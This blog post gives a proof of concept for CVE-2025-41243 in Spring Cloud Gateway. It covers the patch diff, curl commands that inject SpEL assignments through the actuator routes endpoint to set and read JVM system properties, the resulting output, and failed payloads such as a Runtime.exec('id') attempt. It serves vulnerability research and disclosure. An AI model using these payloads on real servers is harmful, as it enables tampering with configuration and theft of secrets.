 ```yaml
---
layout: post
title:  "CVE-2025-41243 PoC for SpEL property modification using Spring Cloud Gateway Server WebFlux"
datetime: 2025-09-24 22:40:00 MEST
last_modified_at: 2025-09-24 22:40:00 MEST
author: 'psytester'
---
```


[CVE-2025-41243: Spring Expression Language property modification using Spring Cloud Gateway Server WebFlux](https://spring.io/security/cve-2025-41243) is out and got CVSS score 10.0.

Here is my, hmmm.... is it really a complete Proof of Concept? Because I would expect that CVSS score 10.0 includes a RCE as well.<br>
I'm nothing, I have to learn a lot.

Patch delta shows in restrictive mode, that no assignments are allowed anymore<br>
org/springframework/cloud/gateway/support/ShortcutConfigurable.java:
```
		public GatewayEvaluationContext(BeanFactory beanFactory) {
			this.beanFactoryResolver = new BeanFactoryResolver(beanFactory);
			Environment env = beanFactory.getBean(Environment.class);
			boolean restrictive = env.getProperty("spring.cloud.gateway.restrictive-property-accessor.enabled",
					Boolean.class, true);
			if (restrictive) {
				delegate = SimpleEvaluationContext.forPropertyAccessors(new RestrictivePropertyAccessor())
						.withMethodResolvers((context, targetObject, name, argumentTypes) -> null)
            .withAssignmentDisabled()     // <---- newly added
            .build();
			}
			else {
				delegate = SimpleEvaluationContext.forReadOnlyDataBinding().build();
			}
```

And a test case was added to check that assignments are not possible anymore<br>
org/springframework/cloud/gateway/support/ShortcutConfigurableTests.java‎
```
	public void testNormalizeDefaultTypeWithSpelAssignmentAndInvalidInputFails() {
		parser = new SpelExpressionParser();
		ShortcutConfigurable shortcutConfigurable = new ShortcutConfigurable() {
			@Override
			public List<String> shortcutFieldOrder() {
				return Arrays.asList("bean", "arg1");
			}
		};
		Map<String, String> args = new HashMap<>();
		args.put("bean", "#{ @myMap['my.flag'] = true}");      // <---- has to fail
		args.put("arg1", "val1");
		assertThatThrownBy(() -> {
			ShortcutType.DEFAULT.normalize(args, shortcutConfigurable, parser, this.beanFactory);
		}).isInstanceOf(SpelEvaluationException.class);
	}
```


## Creating new route with property assignment and reading it
```
curl -X POST -H 'Content-Type: application/json' -i http://gateway:8092/actuator/gateway/routes/route-spel-assign --data '{
  "id": "route-spel-assign",
  "uri": "http://1.2.3.4:8443/",
  "predicates": [
    {
      "name": "Path",
      "args": {
        "pattern": "/spel-assign"
      }
    }
  ],
  "filters": [
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-SpEL-SystemProperty-Set1",
        "value": "#{@systemProperties['\''my.own.flag'\''] = '\''directly set'\''}"
      }
    },
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-SpEL-SystemProperty-Get1",
        "value": "#{@systemProperties['\''my.own.flag'\'']}"
      }
    },
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-SpEL-SystemProperty-Set2",
        "value": "#{@systemProperties['\''my.own.flag'\''] = '\''taken from java home:'\'' + @systemProperties['\''java.home'\'']}"
      }
    },
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-SpEL-SystemProperty-Get2",
        "value": "#{@systemProperties['\''my.own.flag'\'']}"
      }
    }
  ]
}'
```

## Apply new route
```
curl -X POST -i http://gateway:8092/actuator/gateway/refresh
```

## Getting data of newly added route
```
http://gateway:8092/actuator/gateway/routes/route-spel-assign

{"predicate":"Paths: [/spel-assign], match trailing slash: true",
"route_id":"route-spel-assign",
"filters":[
      "[[AddResponseHeader X-SpEL-SystemProperty-Set1 = 'directly set'], order = 1]",
      "[[AddResponseHeader X-SpEL-SystemProperty-Get1 = 'directly set'], order = 2]",
      "[[AddResponseHeader X-SpEL-SystemProperty-Set2 = 'taken from java home:/usr/lib/jvm/java-17-openjdk-17.0.16.0.8-2.el8.x86_64'], order = 3]",
      "[[AddResponseHeader X-SpEL-SystemProperty-Get2 = 'taken from java home:/usr/lib/jvm/java-17-openjdk-17.0.16.0.8-2.el8.x86_64'], order = 4]"
   ],
"uri":"http://1.2.3.4:8443/",
"order":0}
```

As you can see, the property assigment works and it's reading.<br>
```
"value": "#{@systemProperties['my.own.flag'] = 'taken from java home:' + @systemProperties['java.home']}"
"value": "#{@systemProperties['my.own.flag']}"
```
OK!<br>
I can read application specific `-DjavaProperties` values as well, which might contains some secrets (I will not mention).<br>

## But unpatched Spring already blocks Type and Method calls or does not support that.
```
"value": "#{@systemProperties['my.own.flag'] = T(java.lang.System).getProperty('java.version')}"
"value": "#{@systemProperties['my.own.flag'] = T(java.lang.String).valueOf(123)}"
"value": "#{@systemProperties['my.own.flag'] = T(java.lang.Runtime).getRuntime().exec('id')}"
"value": "#{@systemProperties['my.own.flag'] = ''.valueOf(123)}"
"value": "#{@systemProperties['my.own.flag'] = new String('acb')}"
```

## And now? Give me a light why this is a CVSS score of 10.0!

A post is out on X by [@GobySec](https://x.com/GobySec/status/1970757633444630710) showing a screenshot with a payload.<br>
But for me it does not work.


Thank you for reading. The CVE is not my credit, but the work on the PoC exploit was only for my private fun to learn about dynamic route definitions and mostly for my frustration to get a PoC. ;-)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2025 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
